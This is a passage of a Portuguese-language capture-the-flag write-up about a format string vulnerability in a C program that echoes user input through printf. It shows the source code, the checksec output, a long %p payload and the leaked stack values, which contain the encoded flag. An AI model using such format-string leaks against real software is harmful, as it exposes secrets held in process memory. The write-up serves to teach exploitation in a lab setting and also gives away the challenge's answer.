 ```c
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```

Checksec:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Temos uma vulnerabilidade de format string aqui:

```c
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
```

Controlamos o que é fornecido para a função `printf`. Como não sabemos o tamanho de `secret-menu-item-1.txt` ou `secret-menu-item-2.txt`, pode ficar meio difícil saber em qual lugar da memória a string em `flag.txt`está. Então eu decidi simplesmente colocar um monte de `%p`e ver o que eu consigo:

```
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,
Here's your order: 0x402118,(nil),0x760c1fa2da00,(nil),0x11a1880,0xa347834,0x7ffcaa973f50,0x760c1f81ee60,0x760c1fa434d0,0x1,0x7ffcaa974020,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x30355f673431665f,0x7d343663363933,0x7,0x760c1fa458d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9,0x760c1fa56de9,0x760c1f827098,0x760c1fa434d0,(nil),0x7ffcaa974030,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,
```

